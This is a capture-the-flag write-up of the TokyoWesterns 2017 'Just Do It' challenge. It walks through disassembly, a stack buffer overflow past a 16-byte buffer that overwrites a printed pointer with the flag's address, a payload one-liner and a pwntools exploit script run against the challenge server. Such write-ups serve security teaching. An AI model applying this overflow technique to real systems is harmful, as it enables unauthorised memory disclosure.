




# Just Do It!

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one. This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:



So we can see that it is a 32 bit binary, with a non executable stack.. When we run it, we can see it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:



So we can see that the file it is trying to open is `flag.txt`. When we create the file `flag.txt`, we see that we can actually run the binary:



We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check. We see this via double clicking on `PASSWORD`:

```
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.



So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check like this:

```
$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `vulnBuf`. Let's see how many bytes `vulnBuf` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `vulnBuf`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `target` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!
